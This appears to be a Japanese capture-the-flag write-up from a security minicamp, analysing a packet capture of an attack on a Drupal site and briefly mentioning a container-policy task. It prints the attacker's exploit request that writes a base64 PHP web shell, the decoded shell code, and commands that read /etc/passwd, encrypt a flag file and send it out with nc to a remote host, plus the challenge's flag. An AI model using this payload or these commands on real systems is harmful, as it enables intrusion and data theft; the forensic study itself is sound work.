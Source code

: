 ```
POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20PD9waHAgaWYoaXNzZXQoJF9QT1NUWydjJ10pKXsgc3lzdGVtKGJhc2U2NF9kZWNvZGUoc3RyX3JvdDEzKCRfUE9TVFsnYyddKSkpOyB9IA==%20|%20base64%20-d%20%3E%20create.php
```

このへんいかにも base64 して create.php に書き込んで shell 張ってます！という感じがしますね！CyberChef で該当部分を decode します。

```php
<?php if(isset($_POST['c'])){ system(base64_decode(str_rot13($_POST['c']))); }
```

rot13 してから base64decode して、それを exec しているようです。攻撃者はおそらくこれを使っているはずなので、この後の通信の `POST /create.php?` の `c=` の後の文字列を rot13 して base64decode していくと、

```
cat /etc/passwd
```

```
openssl aes-256-cbc -e -in flag.txt -out flag.enc -pass pass:change_option_e_to_d_for_decrypt
```

```
nc -w 2 192.168.180.163 1337 < flag.enc
```

が見つかります。1337 ポートの通信が気になります。`tcp.port == 1337`をして、Follow TCP Stream をして、1337 宛ての通信を見てみると、以下のようなデータが出てきます。

```sh
# ascii
Salted__..<....K............ot5.x..SX........~.h.Y..].n....!.!..
# raw
53616c7465645f5fafde3cc7d1ab8e4bda00901bbbe2adc913f09faa6f7435d778fd2e5358a6e5b493f1dcffd37ea4688e5983e05dac6ef4a187f7219f21b00e
```

これのバイナリデータを取ってきて(確か YAML にしたら base64encode されていたのでそれを使った)手元で以下のようにすると flag が書かれたテキストファイルが得られました。

```
openssl aes-256-cbc -d -in flag.enc -out flag -pass pass:change_option_e_to_d_for_decrypt
```

flag: `mc2021{H4PPY_M1N1C4MP_GR4DU4T10N}`

## 講師の方の解説を見て新しく知ったこと

Drupal であることはちらっと見て分かりましたが意識をしていなかったので、Drupal の脆弱性で今回使われているものを調べておこうと思います。

# DAY3 コンテナセキュリティ (解けなかった)

Rego で Gatekeeper 用のポリシーを実装する。SHA-256 ハッシュ値 (例: ubuntu@sha256:45b23dee08af5e43a7fea6c4cf9c25ccf269ee113168c19722f87876677c5cb2)で指定されていなければ reject する。

## 時間中にやったこと

他の問題、特に DAY2 マルウェアのトラフィックを分析・検知してみようが一生うまく行かずにつらいなあとなって時間を消費していたので全く見ることができませんでした(ごめんなさい 🙇)

